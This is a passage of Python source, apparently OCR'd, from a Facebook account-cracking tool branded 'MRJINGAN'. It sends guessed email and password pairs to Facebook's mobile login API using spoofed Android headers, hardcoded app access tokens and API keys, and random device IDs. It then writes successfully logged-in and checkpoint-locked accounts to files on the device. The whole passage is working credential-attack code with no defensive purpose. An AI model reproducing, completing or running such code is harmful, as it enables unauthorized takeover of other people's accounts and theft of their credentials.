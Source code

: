                 "format": "json",
                "device_id": str(uuid.uuid4()),
                "cpl": "true",
                "family_device_id": str(uuid.uuid4()),
                "credentials_type": "device_based_login_password",
                "error_detail_type": "button_with_disabled",
                "source": "register_api",
                "email": uid,
                "password": pw,
                "access_token": "350685531728|62f8ce9f74b12f84c123cc23437a4a32",
                "generate_session_cookies": "1",
                "meta_inf_fbmeta": "NO_FILE",
                "advertiser_id": str(uuid.uuid4()),
                "currently_logged_in_userid": "0",
                "locale": "en_PK",
                "device": "Samsung",
                "sdk": "Android",
                "client_country_code": "PK",
                "method": "auth.login",
                "fb_api_req_friendly_name": "authenticate",
                "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
                "api_key": "882a8490361da98702bf97a021ddc14d",
            }
            headers = {
                "User-Agent": ua,
                "Content-Type": "application/x-www-form-urlencoded",
                "Host": "graph.facebook.com",
                "X-FB-Net-HNI": str(random.randint(20000, 40000)),
                "X-FB-SIM-HNI": str(random.randint(20000, 40000)),
                "X-FB-Connection-Type": sex,
                "Authorization": "OAuth 6628568379|c1e620fa708a1d5696fb991c1bde5662",
                "X-FB-Connection-Quality": sex,
                "X-FB-Connection-Bandwidth": str(random.randint(20000000, 30000000)),
                "X-Tigon-Is-Retry": "False",
                "x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62",
                "x-fb-device-group": "5120",
                "X-FB-Friendly-Name": "ViewerReactionsMutation",
                "X-FB-Request-Analytics-Tags": "graphservice",
                "X-FB-HTTP-Engine": "Liger",
                "X-FB-Client-IP": "True",
                "X-FB-Server-Cluster": "True",
                "x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62",
            }
            url = "https://b-graph.facebook.com/auth/login"
            po = requests.post(url, data=data, headers=headers).json()
            if "session_key" in po:
                print(f"\r\033[1;92m [MRJINGAN-OK] {uid} | {pw}")
                open("/sdcard/MRJINGAN/RANDOM_OK.txt", "a").write(f"{uid}|{pw}\n")
                oks.append(uid)
                break
            elif "www.facebook.com" in po["error"]["message"]:
                cpclr = random.choice(["\033[1;90m","\033[1;91m","\x1b[38;5;205m" ,"\x1b[38;5;208m","\033[1;93m","\033[1;94m","\033[1;95m","\033[1;96m"])
                print(f"\r{cpclr} [MRJINGAN-CP] {uid} | {pw}")
                open("/sdcard/MRJINGAN/RANDOM_CP.txt", "a").write(f"{uid}|{pw}\n")
                cps.append(uid)
                break
            else:
                continue
        loop+=1
    except ConnectionError:
        time.sleep(10)
    except: